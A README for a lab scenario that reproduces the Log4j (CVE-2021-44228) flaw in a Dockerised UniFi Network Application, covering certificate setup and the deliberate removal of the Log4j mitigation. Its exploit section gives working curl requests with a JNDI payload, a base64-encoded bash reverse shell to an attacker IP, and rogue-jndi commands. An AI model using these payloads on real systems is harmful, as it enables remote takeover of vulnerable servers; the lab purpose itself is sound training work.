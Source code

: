 # Log4j

The folder `scenarios/log4j` holds the files related to the Log4j vulnerable scenario.

To understand what the Log4j vulnerability involves, the following resources where explored:

- **Cloudflare**
  - https://blog.cloudflare.com/exploitation-of-cve-2021-44228-before-public-disclosure-and-evolution-of-waf-evasion-patterns/
  - https://blog.cloudflare.com/inside-the-log4j2-vulnerability-cve-2021-44228/
  - https://blog.cloudflare.com/actual-cve-2021-44228-payloads-captured-in-the-wild/
- **LunaSec**
  - https://www.lunasec.io/docs/blog/log4j-zero-day/
- **LiveOverflow**
  - https://www.youtube.com/watch?v=kvREvOvSWt4
- **John Hammond:**
  - https://www.youtube.com/watch?v=7qoPDq41xhQ
- **TryHackMe**
  - https://tryhackme.com/room/solar#
  - https://m3n0sd0n4ld.github.io/thm/Lumberjack-Turtle/
  - https://www.youtube.com/watch?v=lJeAgQQaDEw (Shows how to update shell to Meterpreter)
- **SnykLearn**
  - https://learn.snyk.io/lessons/log4shell/java/
- **Reddit (Large Resource)**
	- https://www.reddit.com/r/sysadmin/comments/reqc6f/log4j_0day_being_exploited_mega_thread_overview/

## GitHub-Related References

- **GitHub**
  - Log4j Obfuscating Strings: https://github.com/Puliczek/CVE-2021-44228-PoC-log4j-bypass-words
  - Log4j POC: 
  - https://github.com/cyberxml/log4j-poc
  - https://github.com/kozmer/log4j-shell-poc
  - https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce
  - Log4j Vulnerable App: https://github.com/christophetd/log4shell-vulnerable-app
  - YARA rules (DETECTION): https://gist.github.com/Neo23x0/e4c8b03ff8cdf1fa63b7d15db6e3860b
  - Unifi: https://github.com/puzzlepeaches/Log4jUnifi
  - MarshalSec (Malicious LDAP): https://github.com/puzzlepeaches/Log4jUnifi

This scenario is based in the Tier 2 HackTheBox [Unified](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi) challenge and in the [SprocketSecurity blog](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi).

To reproduce a vulnerable version of Unifi Network Application the Docker container used was adapted from [goofball/unifi](https://github.com/goofball222/unifi). The version used (which can be also customized) is `6.4.54`. 

Typically, most of the Docker images present in this source were patched against Log4j, for instance, through the `JVM_EXTRA_OPTS=-Dlog4j2.formatMsgNoLookups=true` environment variable present in the respective Dockerfile. This disables variable lookups while in the Log4j logging tool that is vulnerable, meaning the final attack is unsuccessful.

After finding this was an issue to our vulnerable scenario, this option was removed from the Dockerfile. It's also important to notice that this Dockerfile is also built with a MongoDB database that supports the UniFi Network Application and where users are saved, according to [SprocketSecurity blog](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi).

> Deployment of the scenario was automated using Ansible. This may suffer changes in the future.

## Other Important Aspects During Setup

Initially, when acessing the UniFi Application Network web interface, the HTTPS connection was not secure because the presented certificate in the TLS connection wasn't signed by a trusted CA. To overcome this issue, we created a CA, as in the `ca/` folder. 

To achieve this, the commands in `ca/cmds.sh` were issued:

```bash
# Generate CA keys (private and public keys)
openssl req -x509 -newkey rsa:4096 -sha256 -days 3650 -keyout ca.key -out ca.crt

# Generating Certificate Signing Request (notice the subjectAltName which is mandatory, at least in Firefox!)
openssl req -newkey rsa:2048 -sha256 -keyout server.key -out server.csr -subj "/CN=example-domain.ui.com/O=UniFi/C=US" -passout pass:pass -addext "subjectAltName = DNS:example-domain.ui.com"

# Generate Server Public-key Certificate
openssl ca -config openssl.cnf -policy policy_anything -md sha256 -days 3650 -in server.csr -out server.crt -batch -cert ca.crt -keyfile ca.key

# Remove Password from server's private key
openssl rsa -in server.key -out server_nopass.key
```

> Notice also the need of the `openssh.cnf`, `serial`, `demoCA/`, and `index.txt` files/folders.

Afterwards, the private key of the issued certificate without password protection (`server_nopass.key`) was coppied into the `unifi-certs/` folder (this file was named **privkey.pem**), which is were our Docker bind mount is located. This is were UniFi fetches its SSL certificates.

*We've forced UniFi to always fetch the SSL certificates on every run, as this wasn't happening on every run, by default. This changes were enforced in the `entrypoint-functions.sh` file*. 

Then, regarding the **fullchain.pem**, we simply used:

```bash
cat server.crt ca.crt > fullchain.pem
```

Notice, there is a need to only include certificate information inside this file. No extra information should be present. The final format should be something like:

```
-----BEGIN (SERVER) CERTIFICATE-----
#######################################
-----END (SERVER) CERTIFICATE-----
-----BEGIN (CA) CERTIFICATE-----
#######################################
-----END (CA) CERTIFICATE-----
```

Then, there was the need of include our CA public-key certificte by default on the attacker's kali machine, so that when they visited the UniFi Network Application web interface, the page would appear as safe. This was accomplished using the `policies.json` file in the `setup/` folder, where all the setup files (using Jinja2 templates) are present. The CA was defined as trusted also system-wide. The `entrypoint.sh` is the one that is triggered at the end and uses all the others.

Furthermore, a Selenium script, `setup/setup.py` was developed, being its main purpose complete the setup Wizard that appears on every start-up of the UniFi web interface. It creates an administrator user as specified in the credentials of the `all.yml` Ansible file. The `setup/requirements.txt` file holds the respective dependencies for the Selenium script to run.

# Exploit

Initially, I tried running exploits related to [TryHackMe Solr](https://tryhackme.com/room/solar#) but due to the Java version used by UniFi, it didn't work. It used [marshelsec](https://github.com/mbechler/marshalsec), a malicious LDAP server that redirected the LDAP request to a simple HTTP server that holded a malicious Java payload.

Therefore, the solution presented in [SprocketSecurity](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi) was taken into consideration.

First, we test if the Log4j vulnerability indeed exists. We can also visit the UniFi Network Applicaiton at `https://example-domain.ui.com:8443`.

In the attacker's machine we run `nc -lnvp 9999` and in another terminal we can run:

```bash
curl 'https://example-domain.ui.com:8443/api/login' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'Referer: https://example-domain.ui.com:8443/manage/account/login?redirect=%2Fmanage' -H 'Content-Type: application/json; charset=utf-8' -H 'Origin: https://example-domain.ui.com:8443' -H 'Connection: keep-alive' -H 'Sec-Fetch-Dest: empty' -H 'Sec-Fetch-Mode: cors' -H 'Sec-Fetch-Site: same-origin' --data-raw '{"username":"a","password":"a","remember":"${jndi:ldap://172.135.0.2:9999/whatever}","strict":true}'
```

> 172.135.0.2 is the attacker machine's IP address. Notice the "remember" parameter as the one vulnerable to the Log4j attack.

If we receive a connection in `nc` we know the application is vulnerable to Log4j, which indeed is.

Then, by doing: 

```bash
git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && mvn package
```

We are using [rogue-jndi](https://github.com/veracode-research/rogue-jndi), a malicious LDAP application that also creates an HTTP server that will inject the payload.

We then generate our payload which is:

```bash
echo 'bash -c bash -i >&/dev/tcp/172.135.0.2/4444 0>&1' | base64
```

We setup our netcat listener using `nc -lnvp 4444` and then we run:

```bash
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTcyLjEzNS4wLjIvNDQ0NCAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "172.135.0.2"
```

By running:

```bash
curl 'https://example-domain.ui.com:8443/api/login' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'Referer: https://example-domain.ui.com:8443/manage/account/login?redirect=%2Fmanage' -H 'Content-Type: application/json; charset=utf-8' -H 'Origin: https://example-domain.ui.com:8443' -H 'Connection: keep-alive' -H 'Sec-Fetch-Dest: empty' -H 'Sec-Fetch-Mode: cors' -H 'Sec-Fetch-Site: same-origin' --data-raw '{"username":"a","password":"a","remember":"${jndi:ldap://172.135.0.2:1389/o=tomcat}","strict":true}'
```

In our netcat listener we then obtain a Reverse Shell with access to the victim machine.

> ***The SprocketSecurity post dives deeper on lateral movement which can also be interesting.***

> This [GitHub repository](https://github.com/puzzlepeaches/Log4jUnifi) specifies the same attack on an automated way using a python script.

> There is also the possibility of upgrade to a better shell.